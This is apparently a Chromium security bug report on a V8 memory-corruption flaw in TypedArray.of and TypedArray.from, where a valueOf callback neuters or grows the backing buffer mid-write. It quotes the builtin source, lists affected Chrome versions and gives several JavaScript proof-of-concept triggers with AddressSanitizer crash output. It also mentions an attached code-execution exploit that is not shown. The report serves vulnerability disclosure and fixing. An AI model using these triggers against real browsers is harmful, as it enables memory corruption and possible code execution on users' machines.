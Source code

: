 <b>VULNERABILITY DETAILS</b>
https://cs.chromium.org/chromium/src/v8/src/builtins/builtins-typedarray-gen.cc?rcl=58a48f4fa8986318524c1808ce66b5f3e6d2fcb4&l=1519
TF_BUILTIN(TypedArrayOf, TypedArrayBuiltinsAssembler) {
[...]
  TNode<Object> receiver = args.GetReceiver();
  GotoIf(TaggedIsSmi(receiver), &if_not_constructor);
  GotoIfNot(IsConstructor(receiver), &if_not_constructor);

  // 5. Let newObj be ? TypedArrayCreate(C, len).
  TNode<JSTypedArray> new_typed_array =
      CreateByLength(context, receiver, SmiTag(length), "%TypedArray%.of");

  TNode<Word32T> elements_kind = LoadElementsKind(new_typed_array);

  // 6. Let k be 0.
  // 7. Repeat, while k < len
  //  a. Let kValue be items[k].
  //  b. Let Pk be ! ToString(k).
  //  c. Perform ? Set(newObj, Pk, kValue, true).
  //  d. Increase k by 1.
  DispatchTypedArrayByElementsKind(
      elements_kind,
      [&](ElementsKind kind, int size, int typed_array_fun_index) {
        TNode<FixedTypedArrayBase> elements =
            CAST(LoadElements(new_typed_array));
        BuildFastLoop(
            IntPtrConstant(0), length,
            [&](Node* index) {
              TNode<Object> item = args.AtIndex(index, INTPTR_PARAMETERS);
              TNode<IntPtrT> intptr_index = UncheckedCast<IntPtrT>(index);
              if (kind == BIGINT64_ELEMENTS || kind == BIGUINT64_ELEMENTS) {
                EmitBigTypedArrayElementStore(
                    new_typed_array, elements, intptr_index, item, context,
                    nullptr /* no need to check for neutered buffer */);
              } else {
                Node* value =
                    PrepareValueForWriteToTypedArray(item, kind, context);

                // GC may move backing store in ToNumber, thus load backing
                // store everytime in this loop.
                TNode<RawPtrT> backing_store =
                    LoadFixedTypedArrayBackingStore(elements);
                StoreElement(backing_store, kind, index, value,
                             INTPTR_PARAMETERS);
              }
              // ToNumber/ToBigInt may execute JavaScript code, but they cannot
              // access arguments array and new typed array.

The last comment is not quite correct. A user-defined typed array constructor may return an already existing array
or call the base class constructor with an already existing array buffer. Then JavaScript code called as a side-effect
of |PrepareValueForWriteToTypedArray()| can neuter the array buffer. |TypedArrayFrom()| contains the same bug.

<b>VERSION</b>
Google Chrome 66.0.3350.0 (Official Build) dev (64-bit) is affected
Google Chrome 66.0.3355.0 (Official Build) canary (64-bit) is affected

Google Chrome 63.0.3239.132 (Official Build) (64-bit) is not affected
Google Chrome 65.0.3325.88 (Official Build) beta (64-bit) is not affected

<b>REPRODUCTION CASE</b>
<script>
neuter = buffer => { try { postMessage("", "invalid", [buffer]) } catch (e) { } };
array = new Uint8Array(128 * 1024 * 1024);
Uint8Array.of.call(function() { return array }, {valueOf() { neuter(array.buffer); } });
</script>

<script>
neuter = buffer => { try { postMessage("", "invalid", [buffer]) } catch (e) { } };
buffer = new ArrayBuffer(128 * 1024 * 1024);
class CustomArray extends Uint8Array { constructor() { super(buffer) } };
CustomArray.of({valueOf() { neuter(buffer); } });
</script>

<script>
neuter = buffer => { try { postMessage("", "invalid", [buffer]) } catch (e) { } };
array = new Uint8Array(128 * 1024 * 1024);
Uint8Array.from.call(function() { return array }, [{valueOf() { neuter(array.buffer); } }], x => x);
</script>

This one is compatible with ASan builds:
<script>
memory = new WebAssembly.Memory({initial: 64 * 1024 * 1024 / 0x10000});
array = new Uint8Array(memory.buffer);
Uint8Array.of.call(function() { return array }, {valueOf() { memory.grow(1); } });
</script>

However, the output is not very helpful:
==11056==ERROR: AddressSanitizer: access-violation on unknown address 0x12e795b40000 (pc 0x12e7739920c7 bp 0x009fc35f98f0 sp 0x009fc35f98a8 T0)
==11056==The signal is caused by a WRITE memory access.
    #0 0x12e7739920c6  (<unknown module>)
    #1 0x9fc35f98ff  (<unknown module>)
    #2 0x12e799c29b20  (<unknown module>)
    #3 0x12e799c29ac0  (<unknown module>)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: access-violation (<unknown module>) 

I have also attached a win64 renderer exploit that uses partial overwrite of a PartitionAlloc free list pointer to gain code
execution.
